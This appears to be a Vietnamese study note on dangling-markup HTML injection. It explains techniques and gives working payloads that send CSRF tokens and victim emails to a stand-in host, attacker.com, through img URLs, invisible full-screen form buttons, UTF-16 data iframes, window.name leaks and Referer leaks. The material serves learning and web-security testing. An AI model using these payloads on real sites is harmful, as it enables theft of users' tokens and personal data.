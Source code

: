 # HTML Injection 
## Dangling Markup 
- **Dangling Markup** xảy ra khi website chèn nội dung do người dùng cung cấp vào trong một thuộc tính HTML nhưng quên đóng dấu nháy hoặc thẻ.

=>  **Kết quả:** trình duyệt tiếp tục đọc phần HTML phía sau như là một phần của giá trị thuộc tính đó.
- Payload `<img src='//attacker-website.com?`
- HTMLSource trở thành 
```html
<img src='https://attacker.com?</div>
<input type="hidden" name="csrf" value="1337">
</form>
<p>I'm hacked? Oh no!</p>
```
=> Kết quả là trình duyệt sẽ gửi một request hình ảnh tới URL sau (đã được mã hóa URL) : `https://attacker.com/?%3C/div%3E%3Cinput%20type=%22hidden%22%20name=%22csrf%22%20value=%221337%22%3E%3C/form%3E%3Cp%3EI
`

=> Lấy được **CSRF**

- Tuy nhiên đối với Chromium nõ sẽ loại bỏ các url có kí tự xuống dòng (newline) ngược lại firefox thì không bỏ 
- Biện pháp 
    - dùng `<textarea>` vì nó chỉ bị đóng bới `</textarea>` hoặc **cuối tài liệu** 
    - Tạo 1 nút lớn để người dùng nhập vào và sẽ leak được data
- Payload
```html ==
<form action="https://attacker.com">
<button type="submit" style="position: fixed; z-index: 999999; top: 0; left: 0;
                             width: 100vw; height: 100vh; opacity: 0"></button>
<textarea name="leak">
<p>Your email: victim@example.com</p>
```
- Tuy nhiên với Chromium thì ngược lại 
    - ![alt text](image.png)
### Bypass newline detection
- Vậy làm sao để bypass được việc loại bỏ newline???
#### UTF-16 iframe/stylesheet content
- Nếu `<iframe>` được phép ghép với `src=data:` ta có thể  bypass nhờ `charset UTF-16` 

```html
Encoded prefix
<style>*{background-image: url(https://attacker.com?
```
[Encode as UTF-16](https://gchq.github.io/CyberChef/#recipe=Encode_text('UTF-16LE%20(1200)')URL_Encode(true)&input=PHN0eWxlPip7YmFja2dyb3VuZC1pbWFnZTogdXJsKGh0dHBzOi8vYXR0YWNrZXIuY29tPw) 

▼
```html
Payload
<iframe src='data:text/html;charset=utf-16,%3C%00s%00t%00y%00l%00e%00%3E%00%2A%00%7B%00b%00a%00c%00k%00g%00r%00o%00u%00n%00d%00%2D%00i%00m%00a%00g%00e%00%3A%00%20%00u%00r%00l%00%28%00h%00t%00t%00p%00s%00%3A%00%2F%00%2F%00a%00t%00t%00a%00c%00k%00e%00r%00%2E%00c%00o%00m%00%3F%00
```
▼

```html 
HTML Source
<iframe src='data:text/html;charset=utf-16,%3C%00s%00t%00y%00l%00e%00%3E%00%2A%00%7B%00b%00a%00c%00k%00g%00r%00o%00u%00n%00d%00%2D%00i%00m%00a%00g%00e%00%3A%00%20%00u%00r%00l%00%28%00h%00t%00t%00p%00s%00%3A%00%2F%00%2F%00a%00t%00t%00a%00c%00k%00e%00r%00%2E%00c%00o%00m%00%3F%00
<p>Your email: victim@example.com</p>
<footer>That's all folks!</footer>
```
- Nội dung bên trong của `iframe` sau khi `inject`
- ![alt text](image-1.png)

#### Iframe name attribute
- Có cách khác nữa 
- Khi bạn có thể tạo `iframe` mà nguồn source là remote ; thuộc tính `name` của iframe có thể rò rỉ và được atk đọc thông wa `window.name` 
```html
Html Source
<iframe src="https://attacker.com" name='
<p>Your email: victim@example.com</p>
<footer>That's all folks!</footer>
```
▼
Ở phía console của atker 
```html
> window.name
'\n<p>Your email: victim@example.com</p>\n<footer>That'

```
=> `window.name` có thể chứa xuống dòng ngay cả trên Chromium, vì nó không phải **URL** hay **target**.
- Nếu CSP không cho phép bất kì nguồn nào bên ngoài và ta có thể nhúng `Iframe` => Chiếm luôn wuyền `Iframe` 

```html
HtmlSource
<object data="about:blank" name='
<!-- payload chứa dữ liệu nhạy cảm ở đây -->
```
```html
HtmlSource
<iframe id="iframe" src="https://target.tld/dangling-object"></iframe>
<script>
  iframe.onload = () => {
    const object = iframe.contentWindow[0];
    object.location = "about:blank";  // Navigate to our same-origin

    const interval = setInterval(() => {
      object.origin;  // When it becomes same-origin
      clearInterval(interval);
      alert(object.name);  // Leak its name (kept after navigation)
    })
  }
</script>
```
- Cách khác kết hợp `<base>`  với `target` 
- Khi `base@target` bị `clobber`, mọi link trên trang (kể cả link do attacker chèn) khi người dùng click sẽ được mở với `window.name` = giá trị của `base@target` 
```html
<!-- che phủ toàn màn hình để dụ click -->
<a href="https://attacker.com/leak" style="position:fixed;top:0;left:0;width:100%;height:100%"></a>

<!-- chèn base target chứa newline / payload -->
<base target='
```

### Leak via Referer
- Chúng ta sẽ thực hiện leak với `textarea` ngay cả khi CSP không cho host bên ngoài 
- Cái này chỉ có thể thực hiện trên `Chromium` và yêu cầu có 1 `</textarea>` ngay sau 
- Inject đoạn đầu tiên : 
    - `<img src="https://attacker.com" referrerpolicy="unsafe-url">` 
- Đoạn thứ 2 
```html
<form action="/referer-leak" method="GET">
<button type="submit" style="position: fixed; z-index: 999999; top: 0; left: 0;
                             width: 100vw; height: 100vh; opacity: 0"></button>
<textarea name="leak">
................
................
Đoạn nay của nạn nhân 
................
................
</textarea>
```
- `action=` trỏ tới nơi chứa injection referer thứ hai
- Khi user click (thậm chí vô ý do button phủ full-screen), form submit và nội dung `<textarea>` bị đưa vào `?leak=`
- Tuy nhiên nếu không có chỗ lưu `Referer leak` . Ta cần phải dùng Payload khác 
```html
<form action="" method="GET">
<input type="hidden" name="html" value="<img src=https://attacker.com referrerpolicy=unsafe-url>">
<button type="submit" style="position: fixed; z-index: 999999; top: 0; left: 0;
                             width: 100vw; height: 100vh; opacity: 0"></button>
<textarea name="leak">
................
................
Đoạn nay của nạn nhân 
................
................
</textarea>
```
- Url sẽ load như sau `https://target.com/vulnerable?html=%3Cimg+src%3Dhttps%3A%2F%2Fattacker.com+referrerpolicy%3Dunsafe-url%3E&leak=%3Cp%3EYour+email%3A+victim%40example.com%3C%2Fp%3E%0D%0A%3Cdiv+class%3D%22write-note%22%3E%0D%0A++%3Ctextarea%3E`

